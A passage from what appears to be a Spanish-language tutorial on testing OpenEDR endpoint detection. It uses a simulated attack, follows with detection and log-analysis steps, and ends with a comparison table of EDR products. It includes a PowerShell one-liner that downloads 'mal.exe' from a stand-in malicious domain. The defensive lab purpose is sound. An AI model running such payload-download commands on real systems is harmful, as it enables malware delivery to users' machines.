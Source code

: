 ```powershell
powershell -c "Invoke-WebRequest http://malicious-domain.com/mal.exe -OutFile C:\Users\User\mal.exe"
```

> ⚠️ Puedes usar un entorno controlado como **máquina virtual** o archivo simulado de EICAR.

---

#### 🛠️ Paso 3: OpenEDR detecta comportamiento anómalo

- El agente registra que `powershell.exe` hizo una conexión externa
- Detecta que un archivo nuevo fue creado en una carpeta sensible
- Guarda los logs (proceso, usuario, IP, comportamiento)

---

#### 🛠️ Paso 4: Analizar el evento

- Puedes revisar los eventos de Windows (`eventvwr.msc`)
- O usar `Sysmon` + `ELK Stack` o `Wazuh` para ver las alertas
- El analista puede decidir aislar el endpoint

---

#### 🧪 Resultado:

✅ OpenEDR detectó la actividad sin necesidad de firmas

✅ Los eventos fueron registrados

✅ Puedes crear una regla para bloquear ese comportamiento a futuro

---

### 📋 Ventajas de OpenEDR

✅ Gratuito y open source

✅ Visibilidad detallada del endpoint

✅ Detecta comportamiento sin depender solo de firmas

✅ Ideal para entornos de aprendizaje, laboratorios o PyMEs

---

### 📘 Comparación con otras soluciones

| Solución         | Costo  | Código abierto | Consola web | Fácil de instalar | Nivel profesional |
| ---------------- | ------ | -------------- | ----------- | ----------------- | ----------------- |
| **OpenEDR**      | Gratis | ✅ Sí          | ⚠️ Limitado | ✅                | Medio             |
| **Wazuh**        | Gratis | ✅ Sí          | ✅          | Medio             | Medio/Alto        |
| **CrowdStrike**  | Pago   | ❌ No          | ✅          | ✅                | Muy alto          |
| **Defender EDR** | Pago   | ❌ No          | ✅          | ✅                | Muy alto          |

---